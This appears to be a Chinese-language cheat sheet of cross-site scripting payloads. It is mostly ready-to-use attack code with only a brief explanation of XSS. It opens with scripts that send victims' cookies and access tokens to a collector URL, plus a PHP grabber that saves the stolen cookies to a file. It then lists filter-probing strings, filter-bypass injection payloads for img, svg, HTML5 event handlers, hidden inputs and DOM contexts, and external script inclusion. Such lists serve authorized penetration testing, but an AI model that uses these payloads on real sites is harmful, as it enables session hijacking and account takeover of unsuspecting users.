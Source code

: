 # Cross Site Scripting(XSS)

漏洞说明：XSS攻击通常指的是通过利用网页开发时留下的漏洞，通过巧妙的方法注入恶意指令代码到网页，使用户加载并执行攻击者恶意制造的网页程序。这些恶意网页程序通常是JavaScript，但实际上也可以包括Java、 VBScript、ActiveX、 Flash 或者甚至是普通的HTML。攻击成功后，攻击者可能得到包括但不限于更高的权限（如执行一些操作）、私密网页内容、会话和cookie等各种内容。

## 目录
- [常见的利用代码](#常见的利用代码)
  - [XSS获取cookie代码](#XSS获取cookie代码)
- [常用的XSS关键字](#常用的xss关键字，判断是否过滤)
- [HTML页面中的的XSS](#HTML页面中的的XSS)

## 常见的利用代码

### XSS获取cookie代码

能够获取到用户cookie的代码

```html
<script>document.location='http://localhost/XSS/grabber.php?c='+document.cookie</script>
<script>document.location='http://localhost/XSS/grabber.php?c='+localStorage.getItem('access_token')</script>
<script>new Image().src="http://localhost/cookie.php?c="+document.cookie;</script>
<script>new Image().src="http://localhost/cookie.php?c="+localStorage.getItem('access_token');</script>
```

把下面代码写入到cookie.php，该代码将获取到的cookie保存到cookies.txt文件中

```php
<?php
$cookie = $_GET['c'];
$fp = fopen('cookies.txt', 'a+');
fwrite($fp, 'Cookie:' .$cookie.'\r\n');
fclose($fp);
?>
```

## 常用的xss关键字，判断是否过滤
```html

>
">
'>
./
.\
\/
>>
>>'>
><">
'>>
">>
'>'>
">">
')
")
'')
')')
"))
"")
")")
''/
""/
'/'/
"/"/
''\
'\'\
"\"\
""\
```
## HTML页面中的的XSS

基本xss
```javascript

基本的payload

<script>alert('XSS')</script>
<scr<script>ipt>alert('XSS')</scr<script>ipt>
"><script>alert('XSS')</script>
"><script>alert(String.fromCharCode(88,83,83))</script>

Img 图片插入 payload
<img src=x onerror=alert('XSS');>
<img src=x onerror=alert('XSS')//
<img src=x onerror=alert(String.fromCharCode(88,83,83));>
<img src=x oneonerrorrror=alert(String.fromCharCode(88,83,83));>
<img src=x:alert(alt) onerror=eval(src) alt=xss>
"><img src=x onerror=alert('XSS');>
"><img src=x onerror=alert(String.fromCharCode(88,83,83));>

Svg 插入payload
<svgonload=alert(1)>
<svg/onload=alert('XSS')>
<svg onload=alert(1)//
<svg/onload=alert(String.fromCharCode(88,83,83))>
<svg id=alert(1) onload=eval(id)>
"><svg/onload=alert(String.fromCharCode(88,83,83))>
"><svg/onload=alert(/XSS/)

Div插入payload
<div onpointerover="alert(45)">MOVE HERE</div>
<div onpointerdown="alert(45)">MOVE HERE</div>
<div onpointerenter="alert(45)">MOVE HERE</div>
<div onpointerleave="alert(45)">MOVE HERE</div>
<div onpointermove="alert(45)">MOVE HERE</div>
<div onpointerout="alert(45)">MOVE HERE</div>
<div onpointerup="alert(45)">MOVE HERE</div>
```

H5使用的xss
```javascript
<body onload=alert(/XSS/.source)>
<input autofocus onfocus=alert(1)>
<select autofocus onfocus=alert(1)>
<textarea autofocus onfocus=alert(1)>
<keygen autofocus onfocus=alert(1)>
<video/poster/onerror=alert(1)>
<video><source onerror="javascript:alert(1)">
<video src=_ onloadstart="alert(1)">
<details/open/ontoggle="alert`1`">
<audio src onloadstart=alert(1)>
<marquee onstart=alert(1)>
<meter value=2 min=0 max=10 onmouseover=alert(1)>2 out of 10</meter>

<body ontouchstart=alert(1)> // Triggers when a finger touch the screen
<body ontouchend=alert(1)>   // Triggers when a finger is removed from touch screen
<body ontouchmove=alert(1)>  // When a finger is dragged across the screen.
```
使用script标签，外部引用
```javascript
<script src=14.rs>
<script src=14.rs/#payload>
<script src=14.rs/#alert(document.domain)>
```

input隐藏标签中xss

```javascript
<input type="hidden" accesskey="X" onclick="alert(1)">

使用CTRL+SHIFT+X出发xss弹窗
accesskey 是全局属性
它是用来设定选择页面上的元素的快捷键的
```

DOM型XSS

```javascript
#"><img src=/ onerror=alert(2)>
```

js文本XSS(一个没有引号和单引号的payload)

```javascript
-(confirm)(document.domain)//

注释：confirm(message)：confirm() 方法用于显示一个带有指定消息和 OK 及取消按钮的对话框。

; alert(1);//
```

XSS URL

```javascript
URL/<svg onload=alert(1)>
URL/<script>alert('XSS');//
URL/<input autofocus onfocus=alert(1)>
```